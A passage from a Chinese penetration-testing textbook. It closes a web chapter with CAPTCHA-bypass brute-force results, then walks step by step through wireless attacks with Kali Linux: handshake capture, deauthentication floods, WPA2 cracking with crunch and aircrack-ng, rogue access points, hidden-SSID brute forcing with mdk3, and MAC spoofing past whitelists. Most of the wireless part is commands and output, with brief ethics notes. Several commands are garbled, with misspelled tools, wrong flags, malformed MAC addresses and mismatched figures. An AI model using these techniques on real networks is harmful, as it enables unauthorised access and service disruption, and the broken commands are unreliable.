| 8 | `bee` | `test` | 200 | | 13914 |
| 9 | `bug` | `test` | 200 | | 13914 |
| 10 | `admin` | `test` | 200 | | 13914 |
| 11 | `root` | `test` | 200 | | 13914 |
| 12 | `admin123` | `test` | 200 | | 13914 |

图 6.54：暴力破解

2. 点击 `Length` 标签并检查 `bee` 和 `bug` 的结果，然后点击 `Response` 标签搜索短语 `successful login`。最后，点击 `Render` 标签查看 UI 中的成功登录页面。结果是 `bee` 用户已成功绕过 `Captcha`，如图 6.55 所示：

| Request | Payload1 | Payload2 | Status | Error | Length |
|---|---|---|---|---|---|
| 0 | | | 200 | | 13914 |
| 1 | `test` | `bug` | 200 | | 13913 |
| 2 | `bee` | `bug` | 200 | | 13914 |
| 3 | `admin` | `bug` | 200 | | 13914 |
| 4 | `root` | `bug` | 200 | | 13914 |
| 5 | `admin123` | `bug` | 200 | | 13914 |
| 6 | `defa` | `bug` | 200 | | 13914 |
| 7 | `untrusted` | `bug` | 200 | | 13914 |
| 8 | `bee` | `test` | 200 | | 13914 |
| 9 | `bug` | `test` | 200 | | 13914 |
| 10 | `admin` | `test` | 200 | | 13914 |
| 11 | `root` | `test` | 200 | | 13914 |
| 12 | `admin123` | `test` | 200 | | 13914 |


图 6.55：检查 `bee` 和 `bug` 的结果

**注意**：严重的业务逻辑漏洞对 Web 应用程序的安全性构成了重大威胁。这些漏洞以多种形式出现，如绕过安全控制、篡改支付、操纵用户输入和访问敏感数据。

总结来说，本章是 Web 应用漏洞利用的全面指南，涵盖了从基础到高级的漏洞利用。它强调了理解 Web 应用漏洞以及如何利用这些漏洞的重要性，特别是在如今 Web 应用已成为日常运营不可或缺部分的数字时代。本章解释了常见的攻击向量、如何创建威胁模型以进行高效测试，并提供了进行复杂评估所需的知识。通过这些知识，Web 审计员和渗透测试人员可以更好地识别和利用 Web 应用程序中的技术和业务逻辑流，并将多个较小的漏洞组合起来以理解其影响。

在下一章中，渗透测试人员将对无线网络利用有深入的理解，包括漏洞、各种攻击类型以及用于保护这些网络的安全机制。此外，渗透测试人员将接触用于无线网络分析的高级工具和技术，使其能够获得关键知识和技能，更好地保护自己免受无线攻击。

## 加入我们书籍的 Discord 社区

加入书籍的 `Discord` 工作区以获取最新更新、优惠、全球科技动态、新书发布以及与作者的交流会议：

https://discord.bpbonline.com

# 第 7 章：无线网络利用

## 引言

本章对无线网络渗透测试进行了广泛探索，涵盖了一系列专门评估各种无线网络（如 Wi-Fi 和蓝牙）安全性的技术、工具和方法。其首要目标是发现这些网络固有的漏洞和潜在威胁，同时为增强安全性建立强大的对策措施。

## 结构

在本章中，我们将讨论以下主题：

- 无线渗透测试简介
- 无线网络基础
  - 无线网络与协议概述
  - 无线网络拓扑结构与架构
  - 射频基础
- 无线安全威胁与标准
  - 常见的无线安全威胁
- 无线安全概述
- 无线渗透测试方法论
  - 无线渗透测试涉及的步骤
- 无线渗透测试方法
- 无线渗透测试工具
  - 无线渗透测试工具概述
  - 常见的无线渗透测试工具
- 为无线渗透测试配置 `Kali Linux`
  - 为无线渗透准备 `Kali Linux`
  - 配置 `Kali Linux` 用于无线攻击
- 无线网络利用技术
  - 破解 `WPA/WPA2` 加密
  - 使用伪造访问点进行中间人攻击
  - 绕过隐藏的 `SSID`
  - 绕过 `MAC` 和开放认证
  - 拒绝服务攻击
- 高级无线攻击
  - 使用 `Reaver` 攻击无线路由器

## 目标

本章的目标是双重的。首先，它提供了关于无线网络渗透测试的实践见解，涵盖了整个序列——从初始侦察和数据收集到漏洞扫描、利用、全面报告和高效修复。其次，本章强调了遵循结构化且行业认可的无线网络渗透测试方法的重要性，以确保对安全态势进行细致且准确的评估。

## 无线渗透测试简介

无线网络容易受到各种威胁，包括窃听、`中间人（MITM）攻击`、`拒绝服务（DoS）攻击`，以及伪造访问点。尽管无线网络提供了便利性和移动性，但对于任何使用它们的人来说，安全必须是优先事项。为了解决这些安全担忧，无线渗透测试已变得至关重要。

这一过程涉及评估无线网络的安全性，以识别漏洞并评估现有安全措施的有效性。对于依赖无线网络传输敏感数据的组织，无线测试特别关键。

`Kali Linux` 是一种流行的 `Linux` 发行版，专门为渗透测试和安全评估设计，侧重于无线网络安全。它包含了大量的无线渗透测试工具，对于任何想要测试其无线网络安全的人来说，都是一个宝贵的资源。

> **注意**：在进行 Wi-Fi 测试时要谨慎并优先考虑安全、隐私和伦理考量，以减少对合法用户和网络的干扰及潜在伤害。

## 无线网络基础

要成功进行高级渗透测试，在无线网络基础方面具有坚实的基础。鉴于无线网络在现代生活中已无处不在，理解其工作原理对于检测漏洞和测试其安全措施至关重要。

### 无线网络与协议概述

对无线网络基础的彻底掌握体现在无线网络和协议的全面理解中。这包括理解各种无线通信技术（如 Wi-Fi 和蓝牙）及其工作原理。理解底层协议对于识别潜在漏洞和有效测试安全措施至关重要。

### 无线网络拓扑结构与架构

无线网络拓扑结构和架构构成了无线网络基础的另一个关键方面。这涉及理解网络结构，以了解设备之间如何交互。高级渗透测试人员需要能够对各种网络拓扑结构（从意之外的对点连接到复杂的网状网络）进行审查并定位漏洞。

### 射频基础

了解射频（`RF`）基础对于无线网络渗透测试非常重要。射频技术是无线通信的关键，理解其原理有助于发现安全风险。这意味着要学习无线网络中的不同频率、它们如何移动以及如何利用它们来发现漏洞。

## 无线安全威胁与标准

在高级渗透测试中，拥有无线安全威胁和标准的知识是至关重要的。随着无线网络的广泛使用，它们已成为攻击者的首选目标。因此，了解常见的无线安全威胁至关重要，这有助于识别漏洞并评估安全措施的有效性。

### 常见的无线安全威胁

无线网络容易受到各种安全威胁的影响，如窃听、`中间人（MITM）` 攻击、`DoS` 攻击、伪造访问点和密码攻击。了解这些威胁及其造成的危害，对于对无线网络进行彻底的安全评估至关重要。

### 无线安全概述

无线安全标准和漏洞对于彻底理解无线网络安全也至关重要。虽然已经实施了 `WPA2` 和 `WPA3` 等标准来增强无线安全，但它们并不受攻击者的利用。因此，识别这些标准中的潜在漏洞以及如何利用这些漏洞是重要的。

## 无线渗透测试方法论

作为高级渗透测试的关键组成部分，无线渗透测试涉及审查无线网络和设备的安全性。通过采用结构化的方法进行无线测试，渗透测试方法论在检测无线网络和设备的漏洞方面发挥着至关重要的作用。

### 无线渗透测试涉及的步骤

无线渗透测试方法论由一系列步骤组成，旨在有效识别无线网络和设备的漏洞，如图 7.1 所示：


图 7.1：无线渗透测试涉及的步骤

1. **侦察 (Reconnaissance)**：侦察涉及收集有关无线网络和连接设备的信息，包括 `SSID`、加密类型和其他相关细节。
2. **枚举 (Enumeration)**：枚举涉及识别在无线网络和设备上运行的服务，包括开放端口和协议。
3. **漏洞评估 (Vulnerability assessment)**：漏洞评估涉及识别无线网络和设备中的潜在缺陷，包括客户端设备和接入点 (`AP`) 的漏洞以及加密漏洞。
4. **利用 (Exploitation)**：在这一步中，测试人员尝试利用之前发现的缺陷。这可能涉及绕过无线网络加密或未经许可进入设备和网络。
5. **报告 (Reporting)**：报告涉及记录测试过程中发现的发现和采取的行动，以对识别出的漏洞提供全面的报告。

## 无线渗透测试的方法

要实现成功的无线渗透任务，考虑以下因素至关重要，因为无线渗透测试的方法可能会根据组织的目标有所不同。如图 7.2 所示：


图 7.2：无线渗透测试的方法

1. **定义目标**：基于测试结果识别所需信息和行动的关键步骤。这有助于使测试活动与组织的目标和需求保持一致。
2. **获取许可**：在进行任何无线渗透测试活动之前，测试人员必须从组织或无线网络所有者处获得许可。这有助于避免因未经授权的测试活动而可能引起的任何法律问题。
3. **以道德的方式进行测试**：使用适当的工具和技术以诚信和伦道德的方式进行无线渗透测试至关重要。测试人员应避免对无线网络或设备造成损坏，并遵守测试指南和标准。
4. **报告结果**：准确且及时地报告结果至关重要。报告应包含详细的发现、改进无线网络和设备安全性的建议以及任何可能存在的潜在风险或漏洞。这有助于组织采取适当措施降低风险并增强安全态势。

## 无线渗透测试工具

进行有效且精确的无线网络和设备测试需要使用无线渗透测试工具。无线渗透中使用了多种类型的工具，我们将在本节中探索这些工具。

### 无线渗透测试工具概述

使用软件或硬件形式的无线渗透测试工具可以识别无线网络和设备中的漏洞。这些工具的创建是为了模拟真实攻击并提供无线网络安全状况的全面数据。使用这些工具的主要目标是确定 `AP`、客户端设备以及无线网络本身的潜在缺陷。

### 常见的无线渗透测试工具

无线渗透涉及利用各种软件和硬件工具模拟现实攻击，并获取网络安全状况的宝贵见解。无线渗透中广泛使用的工具包括：

- `Aircrack-ng`：该工具能够破解 `WEP` 和 `WPA/WPA2-PSK` 加密密钥。此外，它还可以捕获并分析网络流量，以识别潜在的漏洞和安全问题。
- `Wireshark`：`Wireshark` 是一款强大的网络协议分析器，允许测试人员捕获和分析网络流量。它提供有关传输和接收数据的详细信息，是识别安全威胁和漏洞的有效工具。
- `Kismet`：`Kismet` 作为无线网络检测器、嗅探器和入侵检测系统。它可以检测隐藏的无线网络、未经授权的接入点以及无线网络内的其他安全威胁。
- `NetStumbler`：`NetStumbler` 是一种可以在检测无线网络安全漏洞的同时识别无线网络和接入点的工具。
- `Reaver`：`Reaver` 是一种利用开启 `WPS` 的无线网络漏洞来恢复 `WPA/WPA2` 密码的工具。它在评估此类网络的安全性时特别有用。

> **注意**：遵循诸如 `OWASP` 无线安全测试指南等公标准的无线渗透测试方法。关注最新的工具和技术以进行有效且彻底的测试。

## 配置 Kali Linux 用于无线渗透测试

有效的无线渗透测试需要对 `Kali Linux` 进行适当的无线攻击配置。这种设置允许测试人员模拟现实情况、识别漏洞并全面评估无线网络的安全性。为无线渗透测试准备 `Kali Linux`。

在开始无线渗透测试过程之前，验证 `Kali Linux` 已正确配置至关重要。按照以下步骤操作确保配置正确：

1. 要更新和升级 `Kali Linux` 操作系统，你需要运行命令 `sudo apt-get update && sudo apt-get upgrade`。该命令所示图 7.3：

```bash
(ummedneel@kali):~$
$ sudo apt-get update && sudo apt-get upgrade
[sudo] password for ummedneel:
```

图 7.3：更新和升级 `Kali Linux`

2. 要安装必要的无线驱动程序，运行命令 `sudo apt-get install firmware-iwlwfi`。

> **注意**：请注意，根据你使用的无线适配器，你可能需要安装驱动程序。

见图 7.4：

```bash
(ummedneel@kali):~$
$ sudo apt-get install firmware-iwlwfi
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
下列软件包将自动安装但不再需要：
```

图 7.4：安装所需的无线驱动程序

3. 要验证无线接口的可用性，可以运行图 7.5 所示的命令 `iwconfig`：

```bash
$ (ummedneel@kali):~$
$ ifconfig
lo               no wireless extensions.
eth0             no wireless extensions.
wlan0            associated Nickname:<WiFiREALTEK>
Mode:Auto Frequency:2.412 GHz Access Point:Not-Associated
Sensitivity:0/0
Retry:off RTS thr:off Fragment off
PowerManagement:off
Link Quality:8 Signal level:0 Noise level:0
Rx invalid mid:0 Rx crypt:0
```

图 7.5：验证无线接口的可用性

4. 要安装必要的工具，运行 `sudo apt-get install aircrack-ng wireshark kismet reaver`。这所示图 7.6：

```bash
(ummedneel@kali):~$
$ sudo apt-get install aircrack-ng wireshark kismet reaver
```

图 7.6：安装必要的工具

1. 首先，在你的计算机上打开终端或命令提示符。执行命令 `sudo ifconfig wlan0 down` 来禁用无线局域网接口。请参考图 7.7 的视觉指导：

```bash
ummedmeel@kali:~~
$ sudo ifconfig wlan0 down
[sudo] password for ummedmeel:
```

图 7.7：禁用无线局域网接口

2. 使用命令 `sudo airmon-ng check kill` 检查是否存在干扰进程，如果检测到则将其终止。参考图 7.8 进行视觉参考：

```bash
ummedmeel@kali:~~
$ sudo airmon-ng check kill
```

正在杀死这些进程：

```
PID Name
1845 wpa_supplicant
```

图 7.8：检查干扰进程

3. 通过运行命令 `sudo iwconfig wlan0 mode monitor` 将无线局域网接口设置为监控模式。此外，请注意我们需要一个支持监控模式的额外适配器。视觉指令可见于图 7.9：


```
ummedmeel@kali:~~
$ sudo iwconfig wlan0 mode monitor
ummedmeel@kali:~~
$ iwconfig wlan0
wlan0     IEEE 802.11b SSID:"WIFIGREALTEK"
Mode:Monitor Frequency:2.412 GHz Access Point:Not-Associated
Sensitivity:0
Retry RTS thr:off Fragment frag:0
PowerManagement:off
Link Quality:0 Signal level:0 Noise level:0
Rx invalid wmid:0 Rx invalid crypt:0 Rx frag:0
Tx excessive retries:0 Invalid misc:0 Missed beacon:0
```

图 7.9：无线局域网接口到监控模式

4. 使用命令`sudo ifconfig wlan0 up`激活无线局域网接口。见图 7.10 的视觉表示：

```
ummedmeel@kali:~~
$ sudo ifconfig wlan0 up
```

图 7.10：激活无线局域网接口

5. 运行如图 7.11 所示的`ifconfig`命令来验证接口是否已处于监控模式：

```
ummedmeel@kali:~~
$ iwconfig
lo no wireless extensions.
eth0 no wireless extensions.
wlan0
ununassociated SSID="*WIFI@REALTEK*"
Mode:Auto Frequency=2.412 GHz Access Point: Not-Associated
Sensitivity:0/0
Retry:off RTS thr:off Fragment thr:off
Power Management:off
Link Quality:0 Signal level:0 Noise level:0
Rx invalid swarm:0 Rx invalid frag:0
Tx excessive retries:0 Invalid misc:0 Missed beacon:0
```

图 7.11：验证接口是否处于监控模式

6. 使用命令`sudo airodump-ng wlan0`扫描可用的无线网络，如图 7.12 和 7.13 所示：

命令在下面的图 7.12 中：

```
ummedmeel@kali:~~
$ sudo airodump-ng wlan0
```

图 7.12：查看可用无线网络的命令

在图 7.13 中，你可以看到可用的无线网络及其 BSSID 和 ESSID：

CH 18 | Elapsed: 54 s | 2023-05-07 14:14

| BSSID | Power Beacons | #Data, #4 | CH | MB | CIPHER | AUTH ESSID |

|---|---|---|---|---|---|---|---|

| BA:32:14:AF:8A:93 | -93 | 9 | 0 | 6 | 270 | PSK | Tenda_Extender |

| AA:D6:94:7A:8B:61 | -82 | 9 | 0 | 6 | 139 | PSK | TP-Link_capoor |

| A4:A7:A7:D3:E2:09 | -89 | 0 | 0 | 6 | 139 | PSK | Jervis_2.4 |

| E4:B8:F0:D2:8C:62 | -85 | 0 | 0 | 6 | 139 | PSK | Home-Karsvik |

| F6:B8:F0:D2:8C:63 | -96 | 11 | 0 | 1 | 138 | PSK | Pawn-24 |

| C4:F1:F3:99:8E:31 | -85 | 10 | 1 | 7 | 238 | PSK | Home_WiFi |

| B4:F1:F3:99:8E:30 | -92 | 0 | 0 | 7 | 270 | PSK | Inky_georb |

| D4:F1:F3:99:8E:29 | -93 | 0 | 0 | 7 | 270 | PSK | Home_WiFi |

| D3:F1:F3:99:8E:28 | -93 | 0 | 0 | 7 | 270 | PSK | Sunderer_PG1602 |

| B3:F1:F3:99:8E:27 | -93 | 0 | 0 | 7 | 270 | PSK | My_Network |

| F6:B8:F0:D2:8C:64 | -93 | 2 | 0 | 8 | 270 | PSK | www.excital.com |

| 00:14:22:01:35 | -93 | 0 | 0 | 8 | 270 | PSK | 5198 |

| 10:8B:F0:29:26:53 | -93 | 0 | 0 | 9 | 270 | PSK | 5197 |

| A4:A7:A7:D3:E2:08 | -93 | 0 | 0 | 9 | 270 | PSK | Linksys |

| C4:E5:32:A1:E0:28 | -75 | 108 | 9 | 139 | PSK | unmeed-AP-target |

图 7.13：扫描无线网络的的数据包

7. 使用`airodump-ng --ssid <target_BSSID> -c <channel> -w <output_file> wlan0`选择目标网络并捕获包，如图 7.14 和 7.15 所示：此处 BSSID 代表基本集合标识符（Basic Set Identifier）。图 7.14 展示了数据捕获所需的命令：

```
unmeed@kali)
$ sudo airodump-ng --ssid C4:E5:32:A1:E0:28 -c 1 -w packetoutput wlan0
```

图 7.14：启动数据包的命令

CH 1 | Elapsed: 3 mins | 2023-05-07 14:37

| BSSID | PWR Beacons | #Data, #4 | CH | MB | CIPHER | AUTH ESSID |

|---|---|---|---|---|---|---|

| C4:E5:32:A1:E0:28 | -62 | 93 | | 210 | | | unmeed-AP-target |

图 7.15：选择目标网络并捕获数据包（输出）

8. 一旦捕获了足够的包，使用命令`sudo aircrack-ng -w <wordlist> <output_file.cap>`来破解无线密码，如图 7.16 和 7.17 所示：

图 7.16 展示了破解密码所需的命令：

```
ummedmeel@kali:~~
$ sudo aircrack-ng -w passwordlist.txt packetoutput-02.cap
```

图 7.16：破解无线密码的命令

图 7.17 显示了破解命令的输出：

```
Aircrack-ng 1.7
[00:00:00] 12/5 keys tested (50.22 k/s)
Time offset: 0 80.00%

KEY FOUND! [ B0219317 ]

Master Key : FE 11 80 D3 A07 98 13 D5 86 E6 E0 A9 91 86 8F C7
26 8B 40 30 3B 8E 91 35 49 54 C1 81 38 07 20 15 80

Transient Key : C9 78 A9 46 EF 55 C3 C8 D8 DC C1 9F F2 98 C1 C2
E7 82 97 26 F7 07 08 3B CC 4F 48 94 67 55
1C 51 8B 99 26 21 86 50 C6 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00

APOL HMAC : 65 08 FC C5
```

第 2 章 [耗时: 4 分 | 2023-05-07 21:34] WPA 握手: C4:E5:32:A1:E0:28

| BSSID |  Beacon | #数据 | #cs | MB | 加密算法 | 认证 ESSID |

|---|---|---|---|---|---|---|---|

| BSSID | STATION | PWR | Rate | Lost | Frames | PSK | Probes |

| C4:E5:32:A1:E0:28 | | -66 | 8117 | 1 | 1020 | WPA | PSK | 345 EAPOL Redmi123,ummeel-AP-target |

| C4:E5:32:A1:E0:28 | | -66 | 34 | 24 | | | 247 EAPOL | ummeel-AP-target |

| C4:E5:32:A1:E0:28 | | -71 | 32 | 0 | | | | | |

| (未关联) | | -82 | 04 | 0 | | | | | | |

| (未关联) | | -84 | 24 | 0 | | | | | | |

| (未关联) | | -18 | 15 | 0 | | | | | | |

| (未关联) | | -96 | 0 | 0 | | | | | | |

| (未关联) | | -92 | 0 | 0 | | | | | | Airtel_350 |

| (未关联) | | -94 | 5 | 0 | | | | | | 23 |

| (未关联) | | -65 | 11 | 0 | | | | | | |

| (未关联) | | -90 | 0 | 0 | | | | | | |

| (未关联) | | -94 | 0 | 0 | | | | | | |

## 获取 BSSID 和广播信道

4. 一旦获取了 BSSID 和广播信道信息，运行命令`sudo airodump-ng wlan0 -c 1 -b C4:E5:32:A1:E0:28 -w output_file`来从 AP 捕获包，如图 21 和 22 所示。图 21 展示了捕获包所需的命令：

```bash
ummeed@kali~$ sudo airodump-ng wlan0 -c 1 -b C4:E5:32:A1:E0:28 -w captureoutput
```

图 22：密码命令

```bash
ummeed@kali~$ sudo apt-get update
Ign: https://security.github.com/kali-rolling stable
Get: https://security.github.com/kali-rolling stable
Err: 10.255.198.153 Not Found to fetch kali-Release [4.2 KB]
Get: http://archive.kali.org/kali-rolling/main [95.3 MB]
Get: http://archive.kali.org/kali-rolling/updates [64.1 MB]
Get: http://archive.kali.org/kali-rolling/contrib [272 KB]
Get: http://archive.kali.org/kali-rolling/main [217 KB]
Get: http://archive.kali.org/kali-rolling/non-free-contrib [928]
Reading package lists: Done
E: The repository https://security.github.com/kali-rolling does not have a Release File. Updating from such repository cannot be secure, therefore disabled by default.
E: The repository https://security.github.com/kali-rolling does not have a Release File. Updating from such repository cannot be secure, therefore disabled by default.
N: apt-get manage for repository creation.
```

图 22：从 AP 捕获包

5. 为了生成 IV，运行命令`sudo airoplay-ng --deauth 0 -c C4:E5:32:A1:E0:28`使连接 AP 的客户端取消认证。捕获包含 WPA2 密钥或密码的握手包。见图 7.23：

```bash
ummeed@kali~$ sudo airoplay-ng --deauth 0 -c C4:E5:32:A1:E0:28 wlan0
21:56:32 Waiting for frame B64 DeAuth. STAC: [C8:94:02:B4:66] [67/74]
21:56:33 Sending 64 DeAuth. STAC: [C8:94:02:B4:66] [65/66]
21:56:34 Sending 64 DeAuth. STAC: [C8:94:02:B4:66] [71/74]
21:56:34 Sending 64 DeAuth. STAC: [C8:94:02:B4:66] [60/68]
21:56:35 Sending 64 DeAuth. STAC: [C8:94:02:B4:66] [64/68]
21:56:36 Sending 64 DeAuth. STAC: [C8:94:02:B4:66] [64/65]
21:56:37 Sending 64 DeAuth. STAC: [C8:94:02:B4:66] [65/66]
21:56:38 Sending 64 DeAuth. STAC: [C8:94:02:B4:66] [64/66]
21:56:39 Sending 64 DeAuth. STAC: [C8:94:02:B4:66] [64/66]
```

> 图 7.23：使连接 AP 的客户端取消认证

你可以通过暴力破解或运行 wrench 命令攻击来破解 WPA2 密码。要破解它，使用命令`crunch 8 8 B123790 -o newlist.txt; sudo aircrack-ng -w newlist.txt newcaptureoutput-01.cap`，如图 7.24 和 7.25 所示。

攻击成功后，你可以获得目标 AP 的准确密码：

```bash
ummeed@kali~$ sudo crunch 8 8 B123790 -o newlist.txt; sudo aircrack-ng -w newlist.txt newcaptureoutput-01.cap
```

> 图 7.24：密码破解命令的输出：

```
Aircrack-ng 1.7
00:13:29 71116/56408 keys tested (893.59 keys/s)
Time left: 1 hour, 34 minutes, 15 seconds
12.33% KEY FOUND!
Master Key : FE110B03A7D385E9
transient Key : 4E0B03A77935A16F1D8C23F2
5F4B7A2509D1FAAE5C5717E0
EAPOL HMAC
```

> 图 7.25：破解 WPA2 密码（输出）

## 使用伪造热点的中间人攻击

在本节中，我们将讨论在无线网络上执行中间人攻击的步骤，拦截并修改接入点与客户端之间的通信。我们将使用伪造热点演示中间人攻击：

1. 将 TP-Link WN72N 或任何外部 Wi-Fi 适配器连接到你的 Kali 机器，确保其处于监控模式以继续步骤。

2. 使用命令`sudo airbase-ng -e <SSID> -c <channel> -P wlan0`创建具有自定义 SSID 和安全设置的伪造热点，如图 7.26 所示：

```bash
$ sudo airbase-ng -e RogueAP -c 6 -P wlan0
14:28:39 Created interface at
14:28:39 Trying to set MTU on 0 to 1500
14:28:39 Access Point with SSID:E3 started.
14:28:39 Client C8:94:02:B4:66:71 (unencrypted) to SSID:RogueAP
14:29:51 Client C8:94:02:B4:66:71 (unencrypted) to SSID:RogueAP
```

> 图 7.26：具有自定义 SSID 的伪造热点

## 绕过隐藏 SSID

隐藏 SSID 在某些情况下非常有用，例如对无线网络进行安全审计。可以使用 mdk3 工具检测隐藏 SSID。以下是步骤：

1. 在终端运行命令`sudo apt install mdk3`安装 mdk3，如图 7.28 所示。

```bash
ummeed@kali~$ sudo apt install mdk3
Building dependency tree ...
Reading package lists ... Done
```

> 图 7.28：安装 mdk3

2. 使用命令`airodump-ng wlan0`扫描网络。在输出中，你可以发现 MAC 地址 C4:E5:32:A1:E0:28 的 SSID 是隐藏的，且运行在信道 11 上。见图 7.29：

| 信道 | B | #数据 | MB | 加密算法 | 认证 |

|---|---|---|---|---|---|

| C4:E5:32:A1:E0:28 | 93 | 4 | 0 | WPA | TKIP | Ashlik |


| C4:E5:32:A1:E0:28 | 86 | 4 | 0 | `WPA` | `CCMP` | `VILLEN` |

| C4:E5:32:A1:E0:28 | 89 | 20 | 0 | `WPA2` | `CCMP` | `Rajni-2.G` |

| C4:E5:32:A1:E0:28 | 75 | 12 | 0 | `WPA2` | `CCMP` | `Priyanka` |

| C4:E5:32:A1:E0:28 | 93 | 14 | 0 | `WPA2` | `CCMP` | `Sunil` |

| C4:E5:32:A1:E0:28 | 87 | 5 | 0 | `WPA2` | `CCMP` | `www.excitel.com` |

| C4:E5:32:A1:E0:28 | 76 | 16 | 0 | `WPA2` | `CCMP` | `Probe-2.G` |

| C4:E5:32:A1:E0:28 | 70 | 18 | 0 | `WPA2` | `CCMP` | `www.excitel.com` |

| C4:E5:32:A1:E0:28 | 75 | 12 | 2 | `WPA2` | `CCMP` | `Jio-Mgarik` |

| C4:E5:32:A1:E0:28 | 85 | 11 | 19 | `WPA2` | `CCMP` | `PSK` <长度: 4> |

| `SSID` | `STATION` | `Rate` | `Last` | `Frames` | `Notes` | `Probes` |

|---|---|---|---|---|---|---|

| (未关联) | B2:E6:21:18:59:58 | -44 | 0 | 1 | | |

| (未关联) | A2:E4:C7:EC:06:A7 | -34 | 0 | 1 | | |

| (未关联) | 52:D1:F7:33:22:11 | -26 | 0 | 1 | | |

| (未关联) | B6:F6:C7:C4:10:E5 | -26 | 0 | 1 | | 2 |

> 图 7.29：扫描可用无线网络

- `-b` 选择全穷破解破解模式
- `1` 指定要使用的字符集（小写字母）
- `-t` 指定目标接入点的 `MAC` 地址或 `BSSID`
- `-e` 指定要使用的通道（在本例中，为通道 11）

```
$ ummeedel@kali: ~~
sudo mdk3 wlan0 -p b -l 11 -t C4:E5:32:A1:E0:28
```

`SSID` 破解模式激活！

通道设置为：11

正在等待来自目标点的信标帧...

嗅探器线程已启动

来自 `64:FB:92:68:D3:60` 的响应，`SSID`: `"www.excitel.com"`

上一次尝试是：

来自 `B4:A7:C6:B4:2D:50` 的响应，`SSID`: `"VILLEN"`

上一次尝试是：

`SSID` 是隐藏的。`SSID` 长度为：4

来自 `C4:E5:32:A1:E0:28` 的响应，`SSID`: `"jaaa"`

上一次尝试是： `laaa`

> 图 7.0：在破解模式下启动 `mdk3`

其他用于检测隐藏 `SSID` 的常用表示法包括：

| 序号 | 表示 | 描述 |

|---|---|---|

| 1 | `U` | 大写 |

| 2 | `N` | 数字 |

| 3 | `A` | 所有打印字符 |

| 4 | `C` | 大写和小写字母 |

| 5 | `M` | 大写和小写字母加数字 |

| 6 | `C` | 通道 |

> 表 7.1：命令表示

运行 `mdk3` 命令后，终端上将显示隐藏的 `SSID` 名称，可用于进一步的攻击。此信息非常有价值，因为它揭示了之前隐藏的网络名称，使攻击者能够各种方式针对该网络。

> 隐藏 `SSID` 是一个不广播名称的 `Wi-Fi` 网络，使其通过常规扫描无法检测到。可以通过主动扫描探测响应，或利用 `Airodump-ng` 等工具捕获并分析探测响应来揭示隐藏的 `SSID`。

## 绕过 MAC 和开放认证

无线网络可能利用 `MAC` 地址认证或开放认证等安全措施来防止未经授权的访问。然而，这些措施并非无懈可击，可以使用各种工具和技术轻松破解。在本节中，我们将探索绕过无线网络上的 `MAC` 地址认证和开放认证所需的步骤：

- 继续执行“破解 `WPA/WPA2` 加密”章节中的第 1 到第 2 步，以收集目标客户端的关键信息，包括其 `MAC` 地址。然后将使用此 `MAC` 地址伪造你的 `Wi-Fi` 适配器的 `MAC` 地址，欺骗目标 `Wi-Fi` 路由器认为连接请求专门来自白名单 `MAC` 地址。

- 随后，我们需要关闭监控接口 `wlan0`，可以通过执行图 7.31 所示的命令 `airmon-ng stop wlan0` 来实现。

```
(ummedel@ kali)-[~]
$ sudo airmon-ng stop wlan0
```

| `PHY` | 接口 | 驱动 | 芯片组 |

|---|---|---|---|

| `phy1` | `wlan0` | `8188eu` | `TP-Link-WN722N` v2/v3 [`Realtek` `RTL8188EUS`] (监控模式已禁用) |

图 7.31：关闭监控接口 `wlan0`

- 通过执行图 7.32 所示的命令 `systemctl stop NetworkManager` 临时禁用网络管理器：

```
(ummedel@ kali)-[~]
$ sudo systemctl stop NetworkManager
```

图 7.32：临时禁用网络管理器

4. 之后，我们可以使用图 7.33 所示的命令 `sudo ifconfig wlan0 down` 关闭我们想要伪造 `MAC` 地址的无线接口：

```
(ummedmeel@kali)-[~]
sudo ifconfig wlan0 down
```

图 7.33：关闭无线接口

5. 拥有接口后，我们现在可以使用 `maccanger` 更改 `MAC` 地址。运行图 7.34 所示的命令 `sudo maccanger -m [新 MAC 地址] wlan0` 更改为新的 `MAC` 地址：

```
(ummedmeel@kali)-[~]
sudo ifconfig wlan0 down
sudo maccanger -m C8:94:02:b4:66:71 wlan0
Current MAC: 76:56:bb:2c:9eb:ec (unknown)
Permanent MAC: 48:22:54:99:be:97 (unknown)
New MAC: c8:94:02:b4:66:71
```

图 7.34：使用 `maccanger` 更改 `MAC` 地址

6. 通过执行图 7.35 所示的命令 `sudo ifconfig wlan0 up` 重新启动接口：

```
(ummedmeel@kali)-[~]
sudo ifconfig wlan0 up
```

图 7.35：启动接口

7. 通过发布图 7.36 所示的命令 `sudo systemctl start NetworkManager` 恢复网络管理器功能：

```
(ummedmeel@kali)-[~]
sudo systemctl start NetworkManager
```

图 7.36：恢复网络管理器

8. 现在，我们已经将无线适配器的 `MAC` 地址更改为路由器中的白名单 `MAC` 地址，可以尝试通过该网络。这些步骤可以绕过无线网络的 `MAC` 地址和开放认证。如果一切顺利，我们应该能够像图 7.37 所示的那样连接（`e4f3a8990ca3f98ee25ddbf70`）。

图 7.37：更改 `MAC` 地址

> 注意：通过伪造 `MAC` 地址绕过接入点安全会导致未经授权的活动、潜在的数据泄露和未经授权的网络使用。这损害了安全性并增加了设备的漏洞。

## 拒绝服务攻击

`DoS` 攻击对无线网络的可用性和性能有重大影响，使其无法访问。这些攻击利用接入点 (`AP`) 或客户端的漏洞，导致崩溃或无响应。取消认证攻击、信标泛洪和干扰攻击是常见的 `DoS` 攻击类型。

为了实际向 `AP` 发送取消认证帧，可以遵循以下步骤：

1. 首先，需要确保 `Wi-Fi` 处于监控模式。图 7.38 显示与目标接入点的关联主机列表：

| `ID` | `IP` 地址 | 主机名称 | `MAC` 地址 | 持续 |

|---|---|---|---|

| 1 | `192.168.1.100` | `LAPTOP-BC67` | `C8:94:02:B4:66:71` | `00:00:30` |

| 2 | `192.168.1.100` | `DESKTOP-23N7` | `80:70:5A:1A:F8:1C` | `00:00:25` |

图 7.38：主机列表

2. 对无线网络启动 `DoS` 攻击，执行命令 `airplay-ng --deauth 1000 -a FD:55:A1:C2:F3 -h f2:8a:b2:df:90:3f wlan0` 向 `AP` 发送取消认证帧，如图 7.39 所示：

```
airplay-ng --deauth 1000 -a FD:55:A1:C2:F3 -h f2:8a:b2:df:90:3f wlan0
[
10:18:21 等待信标帧 (BSSID: FD:55:A1:C2:F3) 在通道 18
10:18:21 找到站点，正在推断参数
10:18:21 发送 Deauth (count 7) 到 BSSID: FD:55:A1:C2:F3
10:18:21 发送 Deauth (count 7) 到 BSSID: FD:55:A1:C2:F3
10:18:21 发送 Deauth (count 7) 到 BSSID: FD:55:A1:C2:F3
10:18:21 发送 Deauth (count 7) 到 BSSID: FD:55:A1:C2:F3
